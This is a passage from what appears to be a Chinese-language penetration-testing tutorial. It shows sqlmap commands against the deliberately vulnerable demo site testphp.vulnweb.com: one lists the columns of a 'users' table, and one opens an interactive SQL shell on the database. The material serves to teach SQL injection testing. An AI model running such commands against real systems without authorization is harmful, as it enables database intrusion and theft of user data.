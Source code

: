 使用此命令，我们可以从表中获取列：

```py
$ python sqlmap.py -u [URL] -D [Database] -T [table] --columns
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" -D acuart -T users --columns
```

这里，我们从 users 表中获取列：

![](img/948d4ea1-9b96-47c7-9ad7-e817d5366bd5.png)

使用此命令，我们可以获得一个交互式 shell：

```py
$ python sqlmap.py -u [URL] --sql-shell
sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=*" --sql-shell
```

在这里，我们获得了一个 shell，用于使用 sql 语言查询与数据库交互：

![](img/18f7991f-639c-4f3a-8c3a-4efdafa79d07.png)
